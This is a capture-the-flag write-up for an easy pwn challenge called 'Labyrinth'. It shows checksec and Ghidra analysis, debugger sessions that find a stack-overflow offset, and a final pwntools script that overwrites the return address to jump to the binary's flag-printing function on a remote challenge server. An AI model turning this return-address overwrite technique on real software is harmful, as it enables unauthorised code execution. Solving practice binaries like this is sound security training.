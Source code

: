 # [Pwn - easy] Labyrinth

In collaboration with [Pierre Vigier](https://pierre-vigier.github.io/)

A 64-bit binary file is given, and the equivalent made available via TCP.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		4		labyrinth
```

Opening the binary with [Ghidra](https://ghidra-sre.org/) reveals that this binary is about buffer overflow via `fgets` reading `0x44` bytes.

![ghidra](./img/pwn_labyrinth_1.png)

At the adress `0x00401255` there's an `escape_plan` function that will read the flag from file and print it.

![escape_plan](./img/pwn_labyrinth_2.png)

The aim is thus to reach `fgets` by inputing `069`, then overflow `local_38` in order to control the `RIP` Instruction Pointer. The value to set in `RIP` will be an address in the `escape_plan` 
function, around the address `0x00401255`. Since the binary is a 64-bits `LSB` (Little Endian, Least Significant Byte), addresses will need to be reversed and be on 8 octets: for instance here 
`\x55\x12\x40\x00\x00\x00\x00\x00`.

Giving it a try with [gdb-peda](https://github.com/longld/peda), with a pattern of length `68` (the `0x44` in `fgets`), provides us the info that `RBP` is overriden at an offset of 48.

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_create -l 68
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ gdb ./labyrinth
[...]
gdb-peda$ r <<< $(python -c "print('069\n'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac')")
[...]

▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[-] YOU FAILED TO ESCAPE!


Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ea7a37 (<write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7fffffffc0d0 --> 0x6d31333b315b1b0a
RDI: 0x7fffffffbfb0 --> 0x7ffff7df50d0 (<funlockfile>:	endbr64)
RBP: 0x6241376241366241 ('Ab6Ab7Ab')
RSP: 0x7fffffffe228 ("8Ab9Ac0Ac1A")
RIP: 0x401602 (<main+509>:	ret)
R8 : 0x23 ('#')
R9 : 0x7fffffff
R10: 0x0
R11: 0x246
R12: 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:	push   rbp)
R14: 0x0
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>:	call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>:	mov    eax,0x0
   0x401601 <main+508>:	leave
=> 0x401602 <main+509>:	ret
   0x401603:	cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:	nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:	push   r15
   0x401612 <__libc_csu_init+2>:	lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe228 ("8Ab9Ac0Ac1A")
0008| 0x7fffffffe230 --> 0x413163 --> 0x0
0016| 0x7fffffffe238 --> 0x401405 (<main>:	push   rbp)
0024| 0x7fffffffe240 --> 0x100000000
0032| 0x7fffffffe248 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
0040| 0x7fffffffe250 --> 0x0
>0048| 0x7fffffffe258 --> 0xc4cd354ce8e5d3cf
0056| 0x7fffffffe260 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```

![escape_plan](./img/pwn_labyrinth_3.png)

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_offset  -l 68 -q 6241376241366241
[*] Exact match at offset 48
```

Since `RIP` is 8 bytes from `RBP`, in order to override it the first part of input is `"069\n" + "A"*48 + "B*8"`. However we hit a snag with the adress to override `RIP` with: the first instruction of `escape plan` is `push %rbp`.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ objdump -D labyrinth | grep -A5 escape_plan
0000000000401255 <escape_plan>:
  401255:	55                   	push   %rbp
  401256:	48 89 e5             	mov    %rsp,%rbp
  401259:	48 83 ec 10          	sub    $0x10,%rsp
  40125d:	bf 0a 00 00 00       	mov    $0xa,%edi
  401262:	e8 c9 fd ff ff       	call   401030 <putchar@plt>
```

Since it was overridden by a bunch of Bs, it leads to a SEGFAULT. Let's take the next instruction's address: `0x401256`. The input becomes: `"069\n" + "A"*48 + "B*8" + "\x56\x12\x40\x00\x00\x00\x00\x00"`. Testing it locally with `gdb-peda` gives the flag:

```bash
gdb-peda$ r <<< $(python -c "print('069\n'+'A'*48 + 'B'*8 + '\x56\x12\x40\x00\x00\x00\x00\x00')")
[...]
Congratulations on escaping! Here is a sacred spell to help you continue your journey:
HTB{f4k3_fl4g_4_t35t1ng}
```

The final exploit looks like:

```python
from pwn import *

r = remote('138.68.162.218',30843)
lol = r.readuntil(b'>> ')
r.send(b'069' + b"\n")
lol = r.readuntil(b'>> ')
r.send(b'A'*48 + b'B'*8 + b'\x56\x12\x40\x00\x00\x00\x00\x00')
r.send(b"\n")
lol=r.readall()
print(lol)
r.close()
```

And gives the flag!

![flag](./img/pwn_labyrinth_4.png)
